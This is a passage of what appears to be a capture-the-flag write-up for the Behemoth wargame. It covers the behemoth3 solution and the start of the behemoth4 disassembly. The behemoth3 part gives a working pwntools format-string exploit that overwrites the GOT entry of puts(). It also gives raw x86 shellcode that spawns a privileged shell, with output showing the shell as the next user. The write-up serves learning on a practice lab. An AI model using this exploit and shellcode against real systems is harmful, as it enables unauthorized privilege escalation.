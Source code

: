 ### Exploit:
To exploit this binary, I am going to use the same shellcode that I used in the **Behemoth1** challenge that spawns a shell using `execve("/bin/sh", ["/bin/sh", "-p"])` to maintain privileges. I am also going to put the shellcode into an environment variable and use the `find_env` script to locate the address of the environment variable on the stack.

To build a format string payload to overwrite the **GOT** address of `puts()` with the address of our shellcode, I am going to use a `pwntools` script.

```python
from pwn import *

context.binary = binary = ELF("/behemoth/behemoth3", chekcsec=False)
context.log_level = "CRITICAL"

payload = fmtstr_payload(offset=1, writes={binary.got.puts: <ADDRESS_OF_SHELLCODE>})

p = process()
p.sendline(payload)
p.interactive()
```

```bash
behemoth3@behemoth:/tmp/exp$ export SHELLCODE=$(perl -e 'print "\x90"x20 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x66\x68\x2d\x70\x89\xe1\x50\x51\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')

behemoth3@behemoth:/tmp/exp$ /tmp/find_env SHELLCODE
SHELLCODE is at 0xffffd5a9

behemoth3@behemoth:/tmp/exp$ python3 exploit.py
Identify yourself: Welcome,                                                                                      

$ whoami
behemoth4
```

---
---
## Behemoth4 Solution
**Username:** behemoth4\
**Passowrd:** [REDACTED]

### Disassembly:
```c
sprintf(&var_28, "/tmp/%d", getpid());
FILE* fp = fopen(&var_28, "r");

if (fp)
{
    sleep(1);
    puts("Finished sleeping, fgetcing");
    
    while (true)
    {
        int32_t c = fgetc(fp);
        
        if (c == 0xffffffff)
            break;
        
        putchar(c);
    }
    
```